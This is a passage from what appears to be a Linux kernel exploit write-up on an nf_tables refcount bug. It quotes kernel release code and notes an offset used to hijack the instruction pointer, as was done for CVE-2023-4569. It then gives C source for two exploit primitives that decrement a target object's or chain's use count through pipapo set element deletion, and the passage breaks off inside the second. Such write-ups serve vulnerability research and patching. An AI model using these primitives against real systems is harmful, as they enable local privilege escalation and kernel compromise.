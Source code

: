 ```c
void nft_data_release(const struct nft_data *data, enum nft_data_types type)
{
	if (type < NFT_DATA_VERDICT)
		return;
	switch (type) {
	case NFT_DATA_VERDICT:
		return nft_verdict_uninit(data);
	default:
		WARN_ON(1);
	}
}

static void nft_verdict_uninit(const struct nft_data *data)
{
	struct nft_chain *chain;

	switch (data->verdict.code) {
	case NFT_JUMP:
	case NFT_GOTO:
		chain = data->verdict.chain;
		nft_use_dec(&chain->use);
		break;
	}
}

```
The offset of `use` in `nft_chain` is 0x50. This allowed me to hijack RIP by placing nft_set_elem_expr->size at this location (just like I did when exploiting CVE-2023-4569, just with the offset changed)

### Primitive
I created two exploit primitives.
```c
//make target_obj->use--
void primitive_0(struct nl_sock *socket, char *table, char *target_obj){
    char *tmp_set = "pipapo set for primitive";
    new_set_pipapo(socket,table, tmp_set, 0x40, NFT_OBJECT_CT_EXPECT);
    char *key = malloc(0x40);
    char *key_end = malloc(0x40);
    memset(key,0,0x40);
    memset(key_end,0,0x40);
    new_setelem(socket, table, tmp_set, NULL, 0, target_obj, key, 0x40, key_end, 0x40, 0);

    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*2);
    msg_list[0] = del_setelem_msg(table, tmp_set, key, 0x40, key_end, 0x40);
    msg_list[1] = del_set_msg(table, tmp_set);
    send_msg_list(socket, msg_list, 2);
}
//make target_chain->use--
void primitive_1(struct nl_sock *socket, char *table, char *target_chain){
    char *tmp_set = "pipapo set for primitive";
    new_set_pipapo_for_poc_chain(socket, table, tmp_set, 0x40);
    char *key = malloc(0x40);
    char *key_end = malloc(0x40);
    memset(key,0,0x40);
    memset(key_end,0,0x40);
    //new_setelem(socket, table, tmp_set, NULL, 0, target_obj, key, 0x40, key_end, 0x40, 0);
    new_setelem_with_chain(socket, table, tmp_set, NULL, 0, key, 0x40, key_end, 0x40, target_chain);
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*2);
    msg_list[0] = del_setelem_msg(table, tmp_set, key, 0x40, key_end, 0x40);
    msg_list[1] = del_set_msg(table, tmp_set);
    send_msg_list(socket, msg_list, 2);
```